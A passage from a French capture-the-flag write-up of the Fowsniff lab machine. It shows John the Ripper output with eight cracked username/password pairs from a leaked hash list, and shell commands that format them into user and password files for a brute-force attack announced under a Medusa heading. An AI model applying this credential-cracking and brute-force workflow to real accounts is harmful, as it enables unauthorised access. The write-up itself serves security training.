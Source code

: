 Huit mots de passe trouvés sur neuf, quelle aubaine ! Stockons toutes ces informations, elles nous seront utiles pour la suite du CTF.

```console
root@blinils:~# john leak-pastebin.passwords --format=Raw-MD5 --show > leak-pastebin.john

root@blinils:~# cat leak-pastebin.john
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
8 password hashes cracked, 1 left

root@blinils:~# # pour supprimer les deux dernières lignes du fichier
root@blinils:~# tac leak-pastebin.john | sed '1,2 d' | tac > leak-pastebin.tmp

root@blinils:~# mv leak-pastebin.tmp leak-pastebin.john

root@blinils:~# cat leak-pastebin.john
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972

root@blinils:~# # puis on sépare les users des mots de passe
root@blinils:~# cut -f1 -d@ leak-pastebin.john > fowsniff.users
root@blinils:~# cut -f2 -d: leak-pastebin.john > fowsniff.passwords

root@blinils:~# # ou alors on place chaque couple user/password sur la même ligne
root@blinils:~# sed -e "s/@fowsniff:/ /g" < leak-pastebin.john
mauer mailcall
mustikka bilbo101
tegel apples01
baksteen skyler22
seina scoobydoo2
mursten carp4ever
parede orlando12
sciana 07011972

root@blinils:~# sed -e "s/@fowsniff:/ /g" < leak-pastebin.john > fowsniff.credentials
```

## Cassage de mots de passe avec Medusa

